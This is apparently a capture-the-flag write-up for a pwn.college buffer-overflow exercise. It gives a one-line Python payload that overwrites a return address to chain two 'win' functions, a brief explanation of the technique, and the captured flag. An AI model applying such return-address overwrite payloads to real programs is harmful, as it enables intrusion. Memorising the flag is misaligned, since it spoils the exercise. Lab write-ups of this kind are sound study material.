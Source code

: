 The exploit 

	python -c 'import sys; sys.stdout.buffer.write(b"A"*104 + b"\x47\x1d\x40\x00\x00\x00\x00\x00" + b"\xf4\x1d\x40\x00\x00\x00\x00\x00")'

First we overflow the buffer and change the return address to the first win function. Then we append the address of the second win function so that the return address of first win function is the second win function

Since we are not calling the function the return address will not be changed

The flag

	pwn.college{8x6Y-cEfQ4saExYqAiggTJj6vI5.0FN0MDL5kzM1czW}